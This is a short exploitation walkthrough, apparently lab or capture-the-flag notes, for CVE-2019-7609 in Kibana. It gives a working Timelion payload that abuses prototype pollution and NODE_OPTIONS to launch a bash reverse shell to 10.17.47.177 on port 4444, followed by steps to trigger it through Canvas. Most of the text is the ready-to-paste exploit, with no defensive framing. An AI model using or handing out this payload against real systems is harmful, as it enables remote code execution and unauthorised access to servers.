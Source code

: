 ### Steps to exploit kibana
1. Copy the below exploit from [github](https://github.com/mpgn/CVE-2019-7609)
```js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.17.47.177/4444 0>&1\'");//')  
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

2. Paste the following payload into the Timelion visualizer
![[kiba7.png]]

3. Click run
4. On the left panel click on Canvas
5. Your reverse shell should pop ! :)